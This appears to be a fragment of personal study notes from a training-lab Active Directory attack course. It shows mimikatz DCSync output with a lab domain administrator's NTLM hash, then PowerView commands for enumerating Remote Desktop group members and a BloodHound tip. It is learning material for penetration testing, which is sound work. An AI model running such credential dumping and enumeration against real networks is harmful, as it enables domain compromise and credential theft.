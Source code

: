```powershell
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d
```

# **Stacking The Deck**

# **Privileged Access**

### **Enumerating the Remote Desktop Users Group**

- `PS C:\htb>  Import-Module .\PowerView.ps1`
- `PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"`

In bloodhound, for a specific user (whose foothold we have) check for what type of remote access rights they have either directly or inherited via group membership under `Execution Rights` on the `Node Info` tab.

![Untitled](.gitbook/assets/ACTIVE%20DIRECTORY%20Enum%20&%20Attacks%204af4b148af5740d1a6a92a3c741df505/Untitled%2010.png)


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist